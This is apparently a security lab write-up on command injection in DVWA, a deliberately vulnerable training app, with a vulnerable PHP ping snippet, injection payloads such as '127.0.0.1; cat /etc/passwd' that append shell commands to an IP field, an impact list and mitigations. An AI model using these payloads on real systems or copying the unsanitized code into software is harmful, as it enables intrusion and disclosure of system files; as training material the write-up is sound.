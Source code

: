 # Attack Simulation 5 – Command Injection in DVWA (Realistic OS Command Execution)

## 🎯 Objective

Simulate a **Command Injection** vulnerability using DVWA, and explore how unsanitized user input can lead to arbitrary command execution on the target operating system. This is a **critical-level server-side vulnerability** and often results in full system compromise.

---

## 💡 What is Command Injection?

**Command Injection** occurs when a web application passes **user input into a system shell command** without proper validation or sanitization. If the input is not strictly controlled, attackers can **inject additional OS commands** and execute them with the same privileges as the running application (usually `www-data`, but sometimes `root`).

---

## 🔍 Real-World Scenarios (How This Happens in Actual Systems)

While DVWA presents a simple "ping this IP" form, this same vulnerability appears in **real-world applications**, often in:

| Scenario | Description |
|----------|-------------|
| 🛠 Admin dashboards | Internal tools that ping hosts, reboot services, or run diagnostics using shell |
| 📁 File processing apps | Unsanitized filenames used in commands like `zip`, `convert`, `ffmpeg`, etc. |
| 🌐 IoT devices / routers | Web interfaces allowing commands like `ping`, `traceroute`, `dnslookup` |
| 🖼️ Image or PDF converters | Unsafe use of system commands with user-uploaded input |
| 🤖 DevOps tools / scripts | Webhooks or scripts that use `system()`, `exec()`, or backticks with input |

> ⚠ Example vulnerable code:
> ```php
> $host = $_GET['ip'];
> system("ping -c 1 $host");
> ```

If an attacker enters:
```
127.0.0.1; whoami
```

The system runs:
```bash
ping -c 1 127.0.0.1; whoami
```

And executes both commands — that’s command injection.

---

## ✅ Steps Taken

### 1️⃣ Initial Test (Valid Input)
Submitted:
```
127.0.0.1
```
✅ Output showed ping results:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data...
```

![Ping Works](../../screenshots/attack-simulation-5/Ping.png)

*Figure 1: Working of Ping*

This confirms that the application is running a backend `ping` command.

---

### 2️⃣ Command Injection (Simple Proof)

#### Payload:
```
127.0.0.1; whoami
```

#### Result:
```
www-data
```

![User name](../../screenshots/attack-simulation-5/whoami.png)

*Figure 2: Username*

This means your command was executed on the target OS, leaking the web server's current user.

---

### 3️⃣ More Payloads Tried

#### OS Info:
```
127.0.0.1 && uname -a
```

![OS Information](../../screenshots/attack-simulation-5/uname.png)

*Figure 3: OS Information*

✅ Printed Linux kernel, architecture, and version

#### File System Read:
```
127.0.0.1; cat /etc/passwd
```

![File Reading](../../screenshots/attack-simulation-5/File%20reading.png)

*Figure 4: How to read a File via command Injection*

✅ Dumped system accounts, proving file access

---

## 🔬 Why This Works

The app likely runs:
```php
system("ping -c 1 " . $_GET['ip']);
```

When no input sanitization is applied, any shell metacharacter like `;`, `&&`, or `|` allows attackers to **chain arbitrary commands** onto the original one.

These metacharacters signal to the shell:
- `;` → run both commands sequentially
- `&&` → run second only if first succeeds
- `|` → pipe output of first into second

Because `$_GET['ip']` is not escaped, injected commands become part of the system call.

---

## ✅ Key Commands Used (and Their Purpose)

| Command | Description |
|---------|-------------|
| `127.0.0.1; whoami` | Injects and runs `whoami` after ping |
| `127.0.0.1 && uname -a` | Shows kernel version and OS info |
| `127.0.0.1; cat /etc/passwd` | Dumps system user file |
| `127.0.0.1 && id` | Displays UID, GID, and groups |
| `127.0.0.1 && hostname` | Gets system hostname |

---

## 🛡 Impact

- Execute system-level commands
- Steal sensitive data
- Enumerate system config and users
- Download backdoors
- Establish reverse shells (RCE escalation)

If an attacker gets command injection and the app is running as `root`, it’s **game over**.

---

## 🔐 Mitigation (Best Practices)

| Defense | Why It Works |
|---------|--------------|
| Input validation | Only allow valid IPs (regex) |
| Parameterized functions | Use `escapeshellarg()` or equivalent |
| Avoid shell commands | Use native code/APIs instead of `system()` |
| Least privilege | Web server should never run as root |

---

## 📌 Conclusion

This simulation successfully demonstrates a **real-world applicable** command injection attack. By injecting OS commands through an unsanitized input field in DVWA, we proved how attackers can:

- Execute commands
- Access system files
- Gain foothold for further exploitation

> ⚠️ Command Injection is classified as **CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')** and is one of the most severe vulnerabilities in web apps.
